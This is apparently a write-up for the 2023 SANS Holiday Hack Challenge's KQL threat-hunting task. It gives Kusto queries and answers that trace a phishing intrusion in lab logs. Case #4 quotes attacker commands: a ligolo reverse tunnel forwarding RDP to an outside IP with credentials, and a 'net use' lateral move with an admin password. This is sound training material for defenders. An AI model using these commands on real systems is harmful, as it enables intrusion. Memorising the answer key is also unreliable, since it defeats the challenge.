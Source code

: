 # Writeup for The 2023 SANS Holiday Hack Challenge: A Holiday Odyssey \| Featuring 6: Geese A-Lei'ing!
## KQL Kraken Hunt
Difficulty: :christmas_tree::christmas_tree:  
Use Azure Data Explorer to [uncover misdeeds](https://detective.kusto.io/sans2023) in Santa's IT enterprise. Go to Film Noir Island and talk to Tangle Coalbox for more information.

### Hints
#### Outbound Connections
*From: Tangle Coalbox*
Do you need to find something that happened via a process? Pay attention to the ProcessEvents table!
#### KQL Tutorial
*From: Tangle Coalbox*
Once you get into the [Kusto trainer](https://detective.kusto.io/sans2023), click the blue Train me for the case button to get familiar with KQL.
#### File Creation
*From: Tangle Coalbox*
Looking for a file that was created on a victim system? Don't forget the FileCreationEvents table.

### Solution
#### Onboarding
*Question*: How many Craftperson Elf's are working from laptops? 

*Query*:
```kql
Employees 
| where role == "Craftsperson Elf" and hostname contains "LAPTOP"
| summarize count()
```

*Answer*: `25`

#### Case #1
*Question*: 
1) What is the email address of the employee who received this phishing email?
2) What is the email address that was used to send this spear phishing email?
3) What was the subject line used in the spear phishing email?

*Query*:
```kql
Email
| where link contains "http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx"
| project recipient, sender, subject
```

*Answer*: 
| recipient | sender | subject |
| ------------------------------------------------ | ------------------ | -------------------------------- |
| alabaster_snowball@santaworkshopgeeseislands.org | cwombley@gmail.com | \[EXTERNAL\] Invoice foir reindeer food past due |

#### Case #2
*Question*: 
1) What is the role of our victim in the organization?
2) What is the hostname of the victim's machine?
3) What is the source IP linked to the victim?

*Query*:
```kql
Employees
| where email_addr == "alabaster_snowball@santaworkshopgeeseislands.org"
| project role, hostname, ip_addr
```

*Answer*: 
| role     | hostname     | ip_addr   | 
| -------- | ------------ | --------- |
| Head Elf | Y1US-DESKTOP | 10.10.0.4 |

#### Case #3
*Question*: 
1) What time did Alabaster click on the malicious link? Make sure to copy the exact timestamp from the logs!
2) What file is dropped to Alabaster's machine shortly after he downloads the malicious file?

*Query for question 1*:
```kql
OutboundNetworkEvents
| where src_ip == "10.10.0.4" and url contains "http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx"
| project timestamp
```

*Answer for question 1*: `2023-12-02T10:12:42Z`

*Query for question 2*:
```kql
FileCreationEvents
| where hostname == "Y1US-DESKTOP" and timestamp > datetime("2023-12-02T10:12:42Z") and filename != "MonthlyInvoiceForReindeerFood.docx"
| limit 1
| project filename
```

*Answer for question 2*: `giftwrap.exe`

#### Case #4
*Question*: 
1) The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to?
2) What is the timestamp when the attackers enumerated network shares on the machine?
3) What was the hostname of the system the attacker moved laterally to?

*Query*:
```kql
ProcessEvents
| where hostname == "Y1US-DESKTOP" and timestamp > datetime("2023-12-02T10:12:42Z")
```

*Answer for question 1*:   
This took a little manual analysis, eventually identifying the command:
```cmd
cmd.exe "ligolo" --bind 0.0.0.0:1251 --forward 127.0.0.1:3389 --to 113.37.9.17:22 --username rednose --password falalalala --no-antispoof
```

*Answer for question 2*:  
This took a little manual analysis, eventually identifying a `net share` command at `2023-12-02T16:51:44Z`

*Answer for question 3*:  
This took a little manual analysis, eventually identifying the command:
```cmd
cmd.exe /C net use \\NorthPolefileshare\c$ /user:admin AdminPass123
```